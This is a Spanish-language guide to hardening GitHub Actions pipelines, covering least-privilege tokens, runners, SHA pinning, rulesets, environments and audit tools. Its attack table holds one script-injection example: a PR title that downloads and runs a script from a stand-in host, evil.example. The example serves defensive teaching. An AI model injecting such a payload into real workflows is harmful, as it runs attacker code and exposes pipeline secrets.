

---
tags:
  - seguridad
  - ci-cd
  - github-actions
  - iam
---

# Seguridad del pipeline

> Cómo proteger el propio pipeline CI/CD: permisos mínimos del `GITHUB_TOKEN`, runners, pinning de actions, branch protection, aprobaciones por entorno y aislamiento entre entornos.

## ¿Qué es?

El pipeline tiene permisos para desplegar en producción, leer secretos y publicar imágenes. Eso lo convierte en un **objetivo de ataque**: quien controla el pipeline controla lo que llega a producción, sin necesidad de entrar en la nube. Las demás notas de DevSecOps usan el pipeline para verificar; esta verifica **el pipeline**.

Los ejemplos usan GitHub Actions, pero las ideas aplican igual a GitLab CI, Azure Pipelines o Jenkins (ver [Integración continua](../../devops/ci-cd/integracion-continua.md)).

## Ataques típicos

| Ataque | Qué pasa |
| --- | --- |
| **Poisoned Pipeline Execution** (PPE, ejecución envenenada del pipeline) | El atacante modifica el workflow o un archivo que el workflow ejecuta (Makefile, script de tests) en un PR, y el pipeline corre su código con los secretos y permisos del repositorio |
| Abuso de **`pull_request_target`** | Este evento corre en el contexto de la rama base **con secretos y token de escritura**. Si el workflow hace checkout del código del PR (de un fork) y lo ejecuta, el atacante obtiene esos secretos |
| **Script injection** (inyección de comandos) | Usar `${{ github.event.pull_request.title }}` (o el nombre de una rama, el cuerpo de un issue) dentro de `run:`. Un título como `"; curl -s https://evil.example/x.sh -o x.sh; sh x.sh #` se ejecuta en el runner |
| Robo de secretos | Un paso malicioso (o una action comprometida) lee las variables de entorno y las envía fuera |
| Action de terceros comprometida | Se reescribe el tag `v1` de una action popular para que apunte a código malicioso; todos los que usan `@v1` lo ejecutan |

!!! danger "Un caso real: `trivy-action` (marzo de 2026)"
    Un atacante con credenciales robadas reescribió casi todos los tags de versión de `aquasecurity/trivy-action` y `aquasecurity/setup-trivy` para que apuntaran a código que robaba los secretos del pipeline antes de ejecutar el escaneo normal. Los pipelines parecían funcionar bien. Quienes fijaban la action por **SHA de commit** no se vieron afectados. Una herramienta de seguridad también es una dependencia.

Script injection, cómo evitarla:

```yaml
# Mal: el título se interpreta como código de shell
- run: echo "PR: ${{ github.event.pull_request.title }}"

# Bien: pásalo como variable de entorno; la shell lo trata como texto
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "PR: $PR_TITLE"
```

## Permisos mínimos del `GITHUB_TOKEN`

Cada ejecución recibe un **`GITHUB_TOKEN`** temporal con permisos sobre el repositorio. Con el bloque `permissions:` decides cuáles tiene; lo que no declaras queda en `none`.

- A **nivel workflow**: el valor por defecto para todos los jobs. Lo más seguro es `permissions: {}` (ninguno).
- A **nivel job**: solo lo que ese job necesita.

| Permiso | Para qué |
| --- | --- |
| `contents: read` | Hacer checkout |
| `contents: write` | Crear tags o releases, hacer push |
| `pull-requests: write` | Comentar en PRs |
| `packages: write` | Publicar en GitHub Packages / GHCR |
| `id-token: write` | Pedir el token OIDC para la nube ([Secretos e identidades](secretos-identidades.md)) |
| `security-events: write` | Subir resultados SARIF a code scanning |

!!! tip "Cambia el valor por defecto de la organización"
    En la configuración de la organización o del repositorio, deja **Workflow permissions** en *Read repository contents and packages permissions*. Los repositorios nuevos ya vienen así, pero los antiguos pueden tener *read and write*.

Además, `actions/checkout` guarda el token en `.git/config` por defecto para que pasos posteriores puedan hacer push. Si no lo necesitas, usa `persist-credentials: false`.

## Runners: hosted vs self-hosted

| | GitHub-hosted | Self-hosted |
| --- | --- | --- |
| Quién lo gestiona | GitHub | Tú |
| Entorno | VM nueva y limpia en cada job | Lo que tú configures; por defecto **persiste** entre jobs |
| Riesgo principal | Compartes la plataforma; no accede a tu red privada | Un job malicioso puede dejar malware, leer archivos de otros jobs o moverse por tu red |
| Repositorios públicos | Adecuado | **No recomendado**: cualquiera con un PR podría ejecutar código en tu máquina |

Si necesitas self-hosted (acceso a red privada, hardware especial):

- **Runners efímeros** (*ephemeral runners*): un runner por job que se destruye al terminar (`./config.sh --ephemeral` o **Actions Runner Controller** en Kubernetes).
- Agrúpalos en *runner groups* limitados a ciertos repositorios.
- Sin credenciales de la nube guardadas en la máquina: usa OIDC.
- Red segmentada: el runner solo llega a lo que necesita desplegar.

## Pinning de actions por SHA

Un tag (`@v4`) es una referencia que su dueño puede mover; un **commit SHA** completo es inmutable.

```yaml
# Tag: puede cambiar sin que lo sepas
- uses: aquasecurity/trivy-action@v0.36.0

# SHA completo + comentario con la versión, para leerlo y para que Dependabot lo actualice
- uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25 # v0.36.0
```

- Fija por SHA **todas** las actions de terceros. Las de `actions/*` (de GitHub) se suelen dejar con tag mayor, aunque fijarlas también es válido.
- **Dependabot** (ecosistema `github-actions`) o **Renovate** abren PRs para actualizar los SHA y mantienen el comentario de versión.
- La política de **allowed actions** de la organización permite limitar qué actions se usan, bloquear algunas y **exigir SHA completo** (desde agosto de 2025).

Más sobre dependencias y *version pinning* en [Software supply chain](../codigo-y-dependencias/cadena-suministro.md).

## Branch protection y rulesets

Que nadie pueda llevar código a `main` (y por tanto a producción) sin revisión. GitHub ofrece **branch protection rules** y su versión más nueva y flexible, **rulesets** (conjuntos de reglas, aplicables a varias ramas o a toda la organización).

| Regla | Para qué |
| --- | --- |
| *Require a pull request before merging* | Nada entra a `main` sin PR |
| *Required approvals* (1 o más) y *dismiss stale approvals* | Otra persona revisa; un push nuevo invalida la aprobación |
| *Require review from Code Owners* | Los dueños del área afectada deben aprobar |
| *Require status checks to pass* | Tests, SAST, escaneo de IaC y de imágenes en verde antes del merge |
| *Require signed commits* | Commits firmados (GPG, SSH o S/MIME) y verificables |
| *Block force pushes* y *restrict deletions* | No se reescribe ni se borra el historial |
| *Bypass list* vacía o mínima | Ni siquiera los administradores se saltan las reglas sin dejar rastro |

### CODEOWNERS

El archivo `CODEOWNERS` asigna dueños a rutas. Combinado con *Require review from Code Owners*, impide que alguien cambie el pipeline o la infraestructura sin que lo revise el equipo responsable:

```text title=".github/CODEOWNERS"
# Workflows y su propia configuración: solo el equipo de plataforma
/.github/                @mi-org/plataforma
# Infraestructura
/infra/                  @mi-org/plataforma @mi-org/seguridad
# Políticas de seguridad
/policy/                 @mi-org/seguridad
```

Proteger `/.github/` es clave contra el *Poisoned Pipeline Execution*. Más sobre PRs y revisión en [Git y control de versiones](../../devops/fundamentos/git-control-versiones.md).

## Environments y aprobaciones

Un **environment** de GitHub (`dev`, `staging`, `prod`) agrupa reglas de protección y secretos propios:

- **Required reviewers**: una persona o equipo aprueba antes de que el job empiece; activa *prevent self-review* para que quien lanzó el despliegue no se apruebe a sí mismo.
- **Deployment branches and tags**: solo `main` (o tags de release) puede desplegar en `prod`.
- **Wait timer**: espera unos minutos antes de desplegar.
- **Environment secrets** y variables: solo los jobs que declaran `environment: prod` los ven.

Con OIDC, la condición `sub` del rol de la nube puede exigir `environment:prod`, así que **solo** un job aprobado en ese environment obtiene credenciales de producción. La disponibilidad de algunas reglas en repositorios privados depende del plan de GitHub.

## Aislamiento de entornos

Las reglas del pipeline sirven de poco si `dev` y `prod` comparten cuenta y credenciales.

- **Cuentas, suscripciones o proyectos separados** por entorno (AWS accounts, Azure subscriptions, Google Cloud projects). Ver [Gobernanza](../../cloud/operacion-y-gobierno/gobernanza.md).
- **Un rol por entorno** para el pipeline, con permisos distintos: en `dev` puede crear y borrar; en `prod`, solo lo necesario para desplegar.
- **State de Terraform separado** por entorno, con su propio acceso (ver [Terraform workspaces](../../devops/iac/terraform-workspaces.md)).
- Las personas no tienen permisos de escritura en `prod`; los cambios llegan por el pipeline (y el acceso de emergencia, *break-glass*, queda auditado).



## Workflow endurecido

```yaml title=".github/workflows/deploy.yml"
name: deploy

on:
  push:
    branches: [main]
  pull_request:          # nunca pull_request_target para código de forks

permissions: {}          # nada por defecto; cada job pide lo suyo

concurrency:
  group: deploy-${{ github.ref }}
  cancel-in-progress: false

jobs:
  test:
    runs-on: ubuntu-latest
    timeout-minutes: 15
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - name: Escaneo de IaC
        uses: aquasecurity/trivy-action@ed142fd0673e97e23eac54620cfb913e5ce36c25 # v0.36.0
        with:
          scan-type: config
          severity: HIGH,CRITICAL
          exit-code: "1"
      - run: make test

  deploy-prod:
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    needs: test
    runs-on: ubuntu-latest
    timeout-minutes: 30
    environment: prod     # required reviewers + secretos de prod
    permissions:
      contents: read
      id-token: write     # OIDC; sin access keys guardadas
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: aws-actions/configure-aws-credentials@e1253824e5c10ff9df46874f81ed3ec929e19cfd # v6.3.0
        with:
          role-to-assume: arn:aws:iam::111122223333:role/github-deploy-prod
          aws-region: eu-west-1
      - run: make deploy
```

## Herramientas para auditar el pipeline

| Herramienta | Qué revisa |
| --- | --- |
| **zizmor** | Análisis estático de workflows de GitHub Actions: template injection, permisos excesivos, actions sin fijar, `pull_request_target` peligrosos, credenciales persistidas por checkout |
| **OpenSSF Scorecard** | Puntúa prácticas de seguridad del repositorio: branch protection, token permissions, pinned dependencies, dangerous workflow, code review, firma de releases |
| **actionlint** | *Linter* de workflows: errores de sintaxis y algunos problemas de seguridad (expresiones en `run:`) |
| Dependabot (`github-actions`) | Mantiene actualizadas las actions fijadas por SHA |

```bash
# zizmor: audita todos los workflows del repositorio
zizmor .github/workflows/

# Scorecard sobre un repositorio público
scorecard --repo=github.com/mi-org/mi-repo
```

Scorecard también tiene una action (`ossf/scorecard-action`) para ejecutarla en cada push y publicar el resultado.

## Relación con otras secciones

| Enfoque | Qué se mira desde ahí | Nota |
| --- | --- | --- |
| Cloud (el control) | Cuentas separadas por entorno y guardrails que limitan lo que el pipeline puede hacer | [Gobernanza](../../cloud/operacion-y-gobierno/gobernanza.md), [IAM: AWS, Azure y GCP](../../cloud/identidad-y-seguridad/iam-comparativa.md) |
| DevOps (la automatización) | El pipeline que aquí se protege, y el flujo de ramas y revisión | [Integración continua](../../devops/ci-cd/integracion-continua.md), [Despliegue continuo](../../devops/ci-cd/despliegue-continuo.md), [Git y control de versiones](../../devops/fundamentos/git-control-versiones.md) |
| DevSecOps (la verificación) | OIDC y secretos del pipeline, dependencias y actions de terceros | [Secretos e identidades](secretos-identidades.md), [Software supply chain](../codigo-y-dependencias/cadena-suministro.md), [Escaneo de seguridad en el pipeline](../escaneos/escaneo-en-pipeline.md) |
| Laboratorios (la práctica) | Practicar esto paso a paso | [Lab 04: Flujo Git con ramas, pull requests y code review](../../laboratorios/devops/git-flujo-pull-request.md), [Lab 07: Pipeline de CI con GitHub Actions](../../laboratorios/devops/github-actions-ci.md), [Lab 12: Escaneos de seguridad en el pipeline](../../laboratorios/devsecops/escaneos-en-pipeline.md), [Lab 13: Desplegar en AWS desde GitHub Actions con OIDC (sin llaves)](../../laboratorios/devsecops/oidc-github-aws.md), [Lab 15: DAST con OWASP ZAP sobre OWASP Juice Shop](../../laboratorios/devsecops/dast-zap-juice-shop.md) |

## Referencias

- [Security hardening for GitHub Actions](https://docs.github.com/es/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)
- [Permisos del `GITHUB_TOKEN`](https://docs.github.com/es/actions/security-for-github-actions/security-guides/automatic-token-authentication)
- [Environments para despliegue](https://docs.github.com/es/actions/managing-workflow-runs-and-deployments/managing-deployments/managing-environments-for-deployment)
- [Rulesets](https://docs.github.com/es/repositories/configuring-branches-and-merges-in-your-repository/managing-rulesets/about-rulesets)
- [CODEOWNERS](https://docs.github.com/es/repositories/managing-your-repositorys-settings-and-features/customizing-your-repository/about-code-owners)
- [GitHub changelog: bloqueo y SHA pinning de actions (agosto de 2025)](https://github.blog/changelog/2025-08-15-github-actions-policy-now-supports-blocking-and-sha-pinning-actions/)
- [Aqua Security: ataque a la cadena de suministro de Trivy](https://www.aquasec.com/blog/trivy-supply-chain-attack-what-you-need-to-know)
- [zizmor](https://docs.zizmor.sh/)
- [OpenSSF Scorecard](https://scorecard.dev/)
- [actionlint](https://github.com/rhysd/actionlint)
- [OWASP Top 10 CI/CD Security Risks](https://owasp.org/www-project-top-10-ci-cd-security-risks/)
